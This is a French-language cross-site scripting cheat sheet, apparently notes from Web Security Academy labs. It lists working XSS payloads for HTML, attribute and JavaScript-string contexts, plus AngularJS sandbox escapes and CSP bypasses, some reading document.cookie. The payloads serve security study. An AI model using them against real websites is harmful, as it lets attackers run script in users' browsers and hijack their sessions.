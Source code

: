 # XSS entre les balises HTML

Lorsque le contexte XSS est du texte entre des balises HTML, vous devez introduire de nouvelles balises HTML conçues pour déclencher l'exécution de JavaScript.

Voici quelques méthodes utiles pour exécuter JavaScript :

```html
<script>alert(document.domain)</script> 
<img src=1 onerror=alert(1)>
```

# XSS dans les attributs des balises HTML

Lorsque le contexte XSS est intégré à une valeur d'attribut de balise HTML, vous pouvez parfois supprimer la valeur de l'attribut, fermer la balise et en insérer une nouvelle. Par exemple :

```html
"><script>alert(document.domain)</script>
```

Le plus souvent, dans ce cas, les chevrons sont bloqués ou codés, empêchant ainsi votre entrée de sortir de la balise dans laquelle elle apparaît. Si vous pouvez terminer la valeur de l'attribut, vous pouvez généralement introduire un nouvel attribut créant un contexte scriptable, tel qu'un gestionnaire d'événements. Par exemple :

```js
" autofocus onfocus=alert(document.domain) x="
```

# XSS dans JavaScript

Lorsque le contexte XSS est un code JavaScript existant dans la réponse, une grande variété de situations peuvent survenir, avec différentes techniques nécessaires pour réaliser un exploit réussi.

**Terminer le script existant**
Dans le cas le plus simple, il est possible de fermer simplement la balise de script qui entoure le code JavaScript existant et d'introduire de nouvelles balises HTML qui déclencheront l'exécution du code JavaScript.

```html
</script><img src=1 onerror=alert(document.domain)>
```
**Sortie d'une chaîne JavaScript**
Lorsque le contexte XSS se trouve dans une chaîne littérale entre guillemets, il est souvent possible de la sortir et d'exécuter directement du JavaScript. Il est essentiel de réparer le script après le contexte XSS, car toute erreur de syntaxe empêchera l'exécution complète du script.

Voici quelques moyens utiles pour sortir d'une chaîne littérale :

```js
'-alert(document.domain)-' 
';alert(document.domain)//

&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

**Utilisation du codage HTML**

Lorsque le contexte XSS est un code JavaScript existant dans un attribut de balise entre guillemets, tel qu'un gestionnaire d'événements, il est possible d'utiliser l'encodage HTML pour contourner certains filtres d'entrée.

vous pouvez utiliser la charge utile suivante pour sortir de la chaîne JavaScript et exécuter votre propre script :

```js
&apos;-alert(document.domain)-&apos;
// &apos; => '
```

**XSS dans les littéraux de modèles JavaScript**
Les littéraux de modèle JavaScript sont des chaînes littérales autorisant l'intégration d'expressions JavaScript.

Les littéraux de modèle sont encapsulés entre des guillemets inversés plutôt que des guillemets classiques, et les expressions intégrées sont identifiées par l'attribut `${...}`syntaxe.

```js
${alert(document.domain)}
```

# Client-side template injection

**Comment fonctionne un échappement sandbox AngularJS ?**

Une évasion sandbox consiste à tromper le sandbox en lui faisant croire que l'expression malveillante est bénigne. L'évasion la plus connue utilise la méthode modifiée `charAt()`

Une fois que la fonction `isIdent()` est trompée, vous pouvez injecter du JavaScript malveillant.

```js
$eval('x=alert(1)')
```


```js
[123]|orderBy:'Some string'

https://0ae00031032fb4a980031cdc00e80023.web-security-academy.net/?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

**Bypass AngularJS CSP - Content security policy ?**


AngularJS définit un événement spécial. `$event`Cet objet fait simplement référence à l'objet événement du navigateur. Vous pouvez utiliser cet objet pour contourner le CSP

```html
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
<input id=x ng-focus=$event.path|orderBy:'CSS&&[1].map(alert)'>
<input id=x ng-focus=$event.path|orderBy:'x&&[1].map(alert)'>
<input id=x ng-focus=$event.path|orderBy:'x&&[alert].pop()(1)'>
<input id=x ng-focus=$event.path|orderBy:'[alert].pop()(1)'>
<input id=x ng-focus=$event.path|orderBy:'[alert][0](1)'>
<input id=x ng-focus=$event.path|orderBy:'(y=alert)(1)'>
<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(1)'>
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';
```

